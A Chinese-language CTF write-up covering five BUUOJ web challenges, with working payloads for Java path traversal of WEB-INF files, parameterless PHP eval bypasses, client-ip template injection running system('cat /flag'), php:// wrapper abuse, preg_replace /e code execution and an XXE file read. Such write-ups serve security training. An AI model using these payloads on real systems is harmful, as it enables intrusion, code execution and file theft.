# [RoarCTF 2019]Easy Java
> 观察题目界面，发现有一个 `help` 的链接，点击进去利用 `POST` 形式发现可以下载文件 `help.docx`，但是文档中并没有什么有用的信息



> 由于存在文件下载，尝试读取 `WEB-INF/web.xml`：http://80d57184-5ea0-40ae-8ee9-96c37720d120.node4.buuoj.cn:81/Download?filename=/WEB-INF/web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

```
WEB-INF主要包含一下文件或目录：
    /WEB-INF/web.xml：Web 应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则
    /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非 servlet class，他们不能包含在 .jar 文件中
    /WEB-INF/lib/：存放web应用需要的各种 JAR 文件，放置仅在这个应用中要求使用的 jar 文件,如数据库驱动 jar 文件
    /WEB-INF/src/：源码目录，按照包名结构放置各个 java 文件
    /WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到 web.xml 文件，推断 class 文件的路径，最后直接 class 文件，在通过反编译 class 文件，得到网站源码
```
> 继续读取 FlagController.class 文件：http://80d57184-5ea0-40ae-8ee9-96c37720d120.node4.buuoj.cn:81/Download?filename=/WEB-INF/classes/com/wm/ctf/FlagController.class，解密 base64 加密后的字符串即可拿到 Flag


# [GXYCTF2019]禁止套娃
> 扫描文件后发现存在 `.git` 工程文件泄露，拿到 `index.php` 的文件


```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>

```
> 绕过正则匹配 payload

```php
?exp=print_r(scandir(pos(localeconv())));
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```




```
无参数RCE

localeconv()：函数返回一包含本地数字及货币格式信息的数组
scandir()：列出 images 目录中的文件和目录
readfile()：输出一个文件
current()：返回数组中的当前单元, 默认取第一个值
pos()：current() 的别名
next()：函数将内部指针指向数组中的下一个元素并输出
array_reverse()：以相反的元素顺序返回数组
highlight_file()：打印输出或者返回 filename 文件中语法高亮版本的代码
```



# [BJDCTF2020]The mystery of ip
> 测试后发现在 `http://node4.buuoj.cn:25554/flag.php` 中会出现一个 IP 值，尝试利用 `client-ip` 来修改，发现可以成功修改 IP 值


> 执行 Payload：在 `client-ip` 处赋值 `{system('cat /flag')}`


# [BJDCTF2020]ZJCTF，不过如此
> 观察题目直接给出的源码不难发现可以直接用伪协议绕过

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```
> Payload：

```
GET：text=php://input&file=php://filter/read/convert.base64-encode/resource=next.php
POST：I have a dream
```



> 解密 base64 加密之后的字符串拿到下一步的源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
> 这一步的考点参考 [preg_replace RCE](https://xz.aliyun.com/t/2557)
> Payload

```php
GET：\W*=${eval($_POST[cmd])} 或者 \D*={${eval($_POST[cmd])}}
POST：cmd=system('cat /flag');
```


## 拓展：preg_replace 与代码执行
> 测试代码
```php
<?php
    header("Content-Type: text/plain");

    function complexStrtolower($regex, $value) {
        return preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
    }

    foreach ($_GET as $regex => $value) {
        echo complexStrtolower($regex, $value).PHP_EOL;
    }
```
> 这段代码实际上就是 `preg_replace` 使用了 `/e` 模式导致可以代码执行，而且该函数的第一个和第三个参数都是可以控制的，当 `preg_replace` 函数在匹配到符号正则的字符串时会将替换字符串当做代码来执行，然而这里的第二个参数却固定为 `'strtolower("\\1")' 字符串`

> 上面的命令执行相当于 `eval('strtolower("\\1");')` 的结果，当中的 `\\1` 实际上就是 `\1`，而 `\1` 在正则表达式中有自己的含义，[参考链接](https://www.w3cschool.cn/zhengzebiaodashi/regexp-metachar.html)



> 所以这里的 `\1` 实际上指定的是第一个子匹配项，这里给出官方的 payload：`/?.*={${phpinfo()}}`，即 GET 方式传入的参数名为 `/?.*`，值为 `{${phpinfo()}}`

```php
原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

> 当上面的 `preg_replace` 语句直接写在程序里时可以成功执行 `phpinfo()`，但是由于 `.*` 是通过 GET 方式传入，这时测试后会发现无法执行 phpinfo 函数 (该漏洞还与 PHP 版本有关，高版本无法触发)




> 不妨看看传参的过程中发生了些什么，`var_dump` 一下 `$_GET` 数组，会发现传上去的 `.*` 变成了 `_*`


> 这是由于在 PHP 中对于传入的非法的 $_GET 数组参数名，会将其转换成下划线，这就导致正则匹配失效，fuzz 之后发现当非法字符为首字母时，只有点号会被替换成下划线



> 这里发现两个可以绕过的 Payload：`\D*={${phpinfo()}}` 和 `\S*={${phpinfo()}}`





> 继续看看为什么要匹配到 `{${phpinfo()}}` 或者 `${phpinfo()}` 才能执行 phpinfo 函数：实际上是 [PHP 可变变量](http://php.net/manual/zh/language.variables.variable.php)的原因，在 PHP 中双引号包裹的字符串中可以解析变量，而单引号则不行，`${phpinfo()}` 中的 `phpinfo()` 会被当做变量先执行，执行后即变成 `${1}` (phpinfo()成功执行返回true)



```php
var_dump(phpinfo());    // 结果：布尔 true
var_dump(strtolower(phpinfo()));    // 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));    // 结果：字符串'11'

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));    // 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));    // 结果：空字符串''
这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```

# [NCTF2019]Fake XML cookbook
> 根据题目的名字基本就知道考点是啥了，抓包查看其 XML 语句


> 这里利用 XXE 漏洞 + file 伪协议即可

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY admin SYSTEM "file:///flag">
]>
<user><username>&admin;</username><password>a</password></user>
```

